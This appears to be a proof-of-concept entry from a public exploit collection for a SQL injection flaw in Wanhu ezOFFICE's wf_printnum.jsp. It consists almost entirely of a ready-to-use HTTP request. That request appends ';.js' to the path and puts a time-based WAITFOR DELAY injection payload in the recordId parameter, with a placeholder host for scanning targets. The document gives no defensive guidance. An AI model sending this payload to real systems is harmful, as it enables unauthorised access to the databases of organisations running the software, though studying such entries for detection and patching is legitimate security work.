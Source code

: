 # wanhu_wf_printnum.jsp_sqli

from: https://github.com/wy876/POC/blob/main/%E4%B8%87%E6%88%B7ezOFFICE-wf_printnum.jsp%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.4.8 @2

```
GET /defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: {{host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
